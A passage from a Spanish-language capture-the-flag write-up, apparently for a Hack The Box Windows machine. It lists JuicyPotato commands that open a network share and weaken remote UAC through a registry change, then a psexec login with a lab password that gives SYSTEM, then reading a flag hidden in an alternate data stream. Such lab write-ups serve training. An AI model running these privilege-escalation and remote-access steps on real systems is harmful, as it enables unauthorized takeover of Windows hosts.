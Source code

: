 ```bash
./JuicyPotato.exe -t * -l 1337 -p C:\Windows\System32\cmd.exe -a "/c net share attacker_folder=C:\Windows\Temp /GRANT:Administrators,FULL"
./JuicyPotato.exe -t * -l 1337 -p C:\Windows\System32\cmd.exe -a "/c reg add HKLM\Software\Microsoft\CurrentVersion\Policies\System /v LocalAccountTokenFilterPolicy /t REG_DWORD /d 1 /f"
```

Si comprobamos otra vez con crackmapexec, vemos ahora que el usuario s4vitar esta pwned.
Ya nos podemos connectar con psexec

```bash
impacket-psexec WORKGROUP/s4vitar@10.10.10.59 cmd.exe
Password: s4vitar1234$!

whoami

#Output
nt authority\system

cd C:\Users\Adminstrator\Desktop
dir
type hm.txt
```

Aqui nos dice que la flag no esta aqui. Pensamos a Alternative Data Streams.

```bash
dir /r
more < hm.txt:root.txt
```

;)